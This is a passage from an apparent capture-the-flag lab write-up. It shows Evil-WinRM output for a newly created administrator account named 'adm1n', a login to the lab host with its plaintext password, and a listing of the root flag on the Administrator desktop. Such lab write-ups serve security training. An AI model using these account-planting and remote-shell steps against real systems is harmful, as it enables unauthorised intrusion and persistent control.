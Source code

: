 ```
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> net user adm1n

User name                    adm1n
Full Name                    adm1n
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/25/2022 12:52:25 PM
Password expires             Never
Password changeable          2/26/2022 12:52:25 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Users
The command completed successfully.
```

Ok good to go now we can use **evil-winrm** to connect back over with our new user:

`evil-winrm -i 10.10.11.108 -u adm1n -p P@ssw0rd`

```
vil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\adm1n\Documents>
```

With that we should be able to change to the **Administrator** desktop and get the **root.txt** flag:

```
    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/24/2022  12:52 PM             34 root.txt
```
